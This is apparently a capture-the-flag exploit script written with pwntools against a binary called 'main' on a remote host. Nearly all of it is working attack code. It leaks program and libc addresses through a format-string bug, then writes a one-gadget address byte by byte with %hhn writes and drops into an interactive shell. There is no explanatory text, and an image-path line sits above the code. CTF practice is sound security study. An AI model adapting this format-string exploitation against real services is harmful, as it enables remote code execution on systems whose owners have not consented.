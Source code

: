 
### shell

```python
from pwn import*
context.log_level = 'DEBUG'
p = process('./main')
p = remote('182.92.203.154',35264)
libc =ELF('./libc-2.23.so')
p.sendline('fg %12$p')
p.recvuntil('0x')
proc_base = int(p.recv(12),16)  - 0x203169
log.info('Proc:\t' + hex(proc_base))



payload  = 'fg %174$s'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030B8)
p.sendline(payload)
libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['getopt']
log.info('LIBC:\t' + hex(libc_base))


payload  = 'fg %' + str((libc_base + 0x45226)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8)
p.sendline(payload )

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>8)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 1)
p.sendline(payload )

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>16)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 2)
p.sendline(payload)

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>24)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 3)
p.sendline(payload)

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>32)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 4)
p.sendline(payload)

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>40)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 5)
p.sendline(payload)
p.sendline('quit')
p.interactive()
```
